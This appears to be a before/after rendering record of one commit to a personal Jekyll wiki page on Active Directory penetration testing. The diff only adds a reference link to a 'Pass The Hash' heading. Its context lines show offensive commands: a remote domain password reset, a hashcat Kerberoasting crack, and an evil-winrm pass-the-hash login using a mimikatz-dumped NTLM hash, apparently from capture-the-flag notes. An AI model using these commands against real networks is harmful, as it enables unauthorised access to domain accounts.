

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 900 px high, scrolled down 3412 px. Shown: the part 153-446 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; part of the change alters nothing that is shown.

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -137,7 +137,7 @@ hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.
 net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
 ```
 
-[Pass The Hash]
+**[Pass The Hash](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-pass-the-hash/#references)**
 ```
 evil-winrm -u James -H 8af1903d3c80d3552a84b6ba296db2ea -i 192.168.110.53 (obtain through mimikatz dump)
 ```
````
